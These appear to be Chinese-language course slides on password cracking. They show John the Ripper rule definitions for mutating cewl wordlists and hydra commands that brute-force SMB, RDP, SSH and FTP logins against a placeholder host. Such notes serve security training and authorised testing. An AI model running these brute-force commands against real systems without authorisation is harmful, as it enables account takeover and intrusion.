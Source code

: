 
## 字典

###  用户密码变型

- 基于 cewl 的结果进行密码变型
- 末尾增加数字串
- 字母大小写变化
- 字母与符号互相转换
- 字母与数字互相转换
- P@$$w0rd


## 字典

###  使用 John the Ripper 配置文件实现密码动态变型

###  /etc/john/john.conf

- [List.Rules:Wordlist]
- $[ 0 - 9]$[0-9]$[0- 9 ]
- john --wordlist=cewl.txt --rules --stdout > m.txt
- [List.Rules:test]
    $[0-9]$[0-9]$[0-9]$[a-zA-Z]
    $[0-9]$[0-9]$[0-9]$[a-zA-Z]$[a-zA-Z]$[a-zA-Z]$[`~!@#$%^&*()\-_=+]
- john --wordlist=cewl.txt --rules=test --stdout > m.txt
- john --wordlist=ahm.lst --rules=test HASHFILE


## 在线密码破解——hydra

###  Hydra

##### – 九头蛇，砍去一个头即长出新头，后为大力神赫拉克勒斯所杀


## 在线密码破解——hydra

###  Windows密码破解

- hydra -l administrator -P pass.lst smb://1.1.1.1/admin$ -vVd
- hydra -l administrator -P pass.lst rdp://1.1.1.1 -t 1 -vV

###  Linux密码破解

- hydra -l root -P pass.lst ssh://1.1.1.1 -vV

###  其他服务密码破解

- hydra -L user.lst -P pass.lst ftp://1.1.1.1 -s 2121 -e nsr -o p.txt -t 64
